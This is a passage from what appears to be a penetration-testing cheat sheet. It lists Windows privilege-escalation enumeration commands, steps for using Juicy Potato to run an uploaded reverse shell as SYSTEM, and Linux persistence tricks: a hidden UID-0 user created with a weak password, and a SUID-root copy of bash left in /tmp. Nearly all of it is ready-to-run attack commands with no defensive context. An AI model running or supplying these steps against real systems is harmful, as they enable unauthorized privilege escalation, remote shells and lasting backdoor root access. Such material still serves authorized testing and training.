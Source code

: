 ```bash
```
```bash
pacman -Qe # arch linux
```

#### Windows Privilege Escalation
```bash
whoami /priv
```
```bash
net user
```
```bash
systeminfo
```
```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```
```bash
dir c:\
```
```bash
dir "c:\program files"
```
```bash
dir "c:\program files (x86)"
```
```bash
wmic service get name,startname
```
```bash
wmic service get name,pathname,startname | findstr "Program Files"
```
```bash
cacls *.exe
```

#### Juicy Potato
* Download Juicy Potato to your attack machine
* Upload Juicy Potato to the target (ex: via FTP, SMB, HTTP, etc.)
* Create a reverse shell and upload it to the target (ex: via FTP, SMB, HTTP, etc.)
use Juicy Potato to execute your reverse shell

```bash
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```
```bash
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

#### Persistence  
Add a new user.
```bash
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor
```

Rootbash (Credit: Tib3rius).
```bash
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```
